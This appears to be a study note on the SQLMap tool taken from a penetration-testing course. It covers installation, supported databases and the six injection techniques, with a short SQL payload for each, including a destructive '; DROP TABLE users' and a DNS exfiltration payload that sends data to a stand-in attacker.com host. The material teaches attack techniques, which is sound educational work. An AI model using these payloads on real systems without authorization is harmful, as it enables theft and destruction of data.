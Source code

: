 # SQLMap Overview
>Example of Sqlmap usage
```bash
Attacker@xxx[/xxx]$ python sqlmap.py -u 'http://inlanefreight.xxx/page.php?id=5'

       ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10.41#dev}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:55:56

[12:55:56] [INFO] testing connection to the target URL
[12:55:57] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:55:58] [INFO] testing if the target URL content is stable
[12:55:58] [INFO] target URL content is stable
[12:55:58] [INFO] testing if GET parameter 'id' is dynamic
[12:55:58] [INFO] confirming that GET parameter 'id' is dynamic
[12:55:59] [INFO] GET parameter 'id' is dynamic
[12:55:59] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:56:00] [INFO] testing for SQL injection on GET parameter 'id'
<...SNIP...>
```

## SQLMap Installation

>On Debian, it can be installed with:
```bash
Attacker@xxx[/xxx]$ sudo apt install sqlmap
```

>To install manually, we can use the following command in the Linux terminal or the Windows command line:
```bash
Attacker@xxx[/xxx]$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
>After that, SQLMap can be run with:
```bash
Attacker@xxx[/xxx]$ python sqlmap.py
```

## Supported Databases
| ----------- | Supported  | Databases    | ----------- |
| ---- | -----  | ------    | ----------- |
| MySQL | Oracle | PostgreSQL | Microsoft SQL Server |
| SQLite | IBM DB2 | Microsoft Access | Firebird |
| Sybase | SAP MaxDB | Informix | MariaDB |
| HSQLDB | CockroachDB | TiDB | MemSQL | 
| H2 | MonetDB | Apache Derby | Amazon Redshift |
| Vertica, Mckoi | Presto | Altibase | MimerSQL |
| CrateDB | Greenplum | Drizzle | Apache | Ignite |
| Cubrid | InterSystems | Cache | IRIS | eXtremeDB |
| FrontBase | | | |

## Supported SQL Injection Types

```bash
Attacker@xxx[/xxx]$ sqlmap -hh
...SNIP...
  Techniques:
    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
```
>The technique characters BEUSTQ refers to the following:

- B: Boolean-based blind
- E: Error-based
- U: Union query-based
- S: Stacked queries
- T: Time-based blind
- Q: Inline queries

### Boolean-based blind SQL Injection

> Example
```sql
AND 1=1
```
>SQLMap exploits Boolean-based blind SQL Injection vulnerabilities through the differentiation of TRUE from FALSE query results:

- TRUE results are generally based on responses having none or marginal difference to the regular server response.

- FALSE results are based on responses having substantial differences from the regular server response.

- Boolean-based blind SQL Injection is considered as the most common SQLi type in web applications.

### Error-based SQL Injection
```sql
AND GTID_SUBSET(@@version,0)
```
> If the database management system (DBMS) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.


SQLMap has the most comprehensive list of such related payloads and covers Error-based SQL Injection for the following DBMSes:

|  |  |  |
| ---- | ---- | --- |
| MySQL | PostgreSQL | Oracle |
| Microsoft SQL Server | Sybase	Vertica |
| IBM DB2 | Firebird | MonetDB |


### UNION query-based
```sql
UNION ALL SELECT 1,@@version,3
```
> With the usage of UNION, it is generally possible to extend the original (vulnerable) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.


### Stacked queries
```sql
; DROP TABLE users
```
> Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. INSERT, UPDATE or DELETE), stacking must be supported by the vulnerable platform (e.g., Microsoft SQL Server and PostgreSQL support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.

### Time-based blind SQL Injection
```sql
AND 1=IF(2>1,SLEEP(5),0)
```
>The principle of Time-based blind SQL Injection is similar to the Boolean-based blind SQL Injection, but here the response time is used as the source for the differentiation between TRUE or FALSE.

- TRUE response is generally characterized by the noticeable difference in the response time compared to the regular server response

- FALSE response should result in a response time indistinguishable from regular response times

>Time-based blind SQL Injection is considerably slower than the boolean-based blind SQLi, since queries resulting in TRUE would delay the server response. This SQLi type is used in cases where Boolean-based blind SQL Injection is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. INSERT, UPDATE or DELETE), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as Boolean-based blind SQL Injection would not really work in this case.

### Inline queries
```sql
SELECT (SELECT @@version) from
```
>This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

### Out-of-band SQL Injection
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```
>This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.
>By running the SQLMap on the DNS server for the domain under control (e.g. .attacker.com), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. foo.attacker.com), where foo would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the foo part, to form the entire SQL response.



